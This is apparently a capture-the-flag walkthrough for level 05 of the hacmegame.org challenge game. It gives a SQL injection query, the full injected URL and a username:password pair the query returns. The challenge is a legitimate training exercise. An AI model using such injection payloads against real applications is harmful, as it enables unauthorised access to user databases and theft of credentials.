 #### Level 05 - FaceSpace - a space for your face

This SQL should get the password instead of the status:
```sql
SELECT username,password as status, rank FROM user--
```

Complete URL:

http://www.hacmegame.org/hacmegame/challenges/ChallengeS22.html?o=username;SELECT%20username,password%20as%20status,%20rank%20FROM%20user--

And we get a list of users with password, here is one `gorbatsjov:6ECkGsQd`